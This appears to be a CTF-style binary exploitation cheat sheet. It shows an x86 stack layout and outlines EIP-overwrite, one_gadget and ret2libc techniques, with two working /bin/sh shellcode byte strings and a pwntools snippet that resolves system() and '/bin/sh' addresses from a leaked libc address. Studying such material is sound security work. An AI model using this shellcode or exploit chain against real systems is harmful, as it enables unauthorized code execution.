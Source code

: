 so a common call stack will look as follows:
```text
[local var]     <- esp
[local var]
[local var]    
[saved ebp]    <- ebp
[return addr]   
[parameters]    
------------------
[local vars]    
[saved ebp]
[return addr]
[parameters]

```

This will be essential for ROP later.

# Exploit techniques
## EIP overwrite -> shellcode exec

The most basic and easiest exploit. Condition required:

- no NX
- no/leak canary
- enough space for shellcode
- no/leak ASLR

Just overwrite return addr with stack addr pointing to shellcode on the stack.
### shellcodes
linux x86-64:
`\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05`

linux x86:
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`

## EIP overwrite -> One gadget

[One_gadget github](https://github.com/david942j/one_gadget) Just follow instructions

## Ret-2-libc

Condition required:

- no/leak canary
- no/leak ASLR

### Pwntools cheatsheet

```python

from pwn import *

libc = ELF('libc.so')

LEAKED_PUT_ADDR = leak_function()
LIBC_BASE = LEAKED_PUT_ADDR - libc.symbols['put']

SYSTEM_OFF = libc.symbols['system']
LIBC_SYSTEM = LIBC_BASE + SYSTEM_OFF

sh = LIBC_BASE + next(libc.search('sh\x00'))
binsh = LIBC_BASE + next(libc.search('/bin/sh\x00'))
```